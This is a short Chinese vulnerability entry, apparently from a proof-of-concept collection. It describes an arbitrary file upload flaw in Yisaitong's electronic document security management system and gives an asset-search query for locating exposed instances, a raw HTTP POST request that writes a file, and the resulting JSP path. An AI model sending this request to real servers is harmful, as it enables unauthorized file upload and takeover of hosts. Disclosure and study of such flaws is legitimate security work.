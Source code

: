 # 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限

## 漏洞影响

<a-checkbox checked>亿赛通 电子文档安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="亿赛通-电子文档安全管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1662547302195-56a45dcd-8ed2-47e9-b0b7-1ed85f849269.png)

验证POC

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

![img](../../../.vuepress/public/img/1692098730985-b4483468-8952-4376-a7f7-a61f80f828de.png)

```plain
/tttT.jsp
```

## 参考链接

<a-checkbox checked>https://github.com/di0xide-U/YSTupload/blob/main/exp.md</a-checkbox></br>